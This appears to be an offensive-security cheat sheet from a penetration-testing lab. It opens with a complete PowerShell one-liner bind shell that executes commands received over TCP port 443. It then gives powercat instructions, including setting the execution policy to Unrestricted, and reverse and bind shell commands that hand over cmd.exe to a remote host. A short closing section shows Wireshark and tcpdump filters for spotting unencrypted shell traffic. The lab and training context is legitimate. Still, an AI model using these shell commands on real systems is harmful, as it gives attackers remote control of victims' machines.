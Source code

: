 #### One-liner bind sell
````
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
````

## powercat

launch powershell as admin and run following
```
Set-ExecutionPolicy Unrestricted

```
Then run dot-source the script
```
. .\powercat.ps1
powercat
```
#### Reverse Shell
```
powercat -l -p 4444 / nc -nlvp 4444
powercat -c 192.168.119.175 -p 4444 -e cmd.exe -v
```

#### Bind shell
```
powercat -l -p 443 -e cmd.exe
powercat -c 192.168.175.10 -p 4444 
```

## wireshark
### Checking for unencrypted bind shell

1. Choose interface
2. Set up filter that only captures port 4444
  * host $BOB_IP and tcp port 4444
3. Set up bind shell while Wireshark runs in background
4. Stop capture
5. "Follow TCP Stream"

You should be able to see the connection and various commands performed

With ACK and PSH flag both set

sudo tcpdump -A -n 'tcp[13] = 24' -r password_cracking_filtered.pcap
tcpdump 'tcp[tcpflags] & (tcp-push|tcp-ack) == (tcp-push|tcp-ack)' -r password_cracking_filtered.pcap

sudo tcpdump -nX -r password_cracking_filtered.pcap
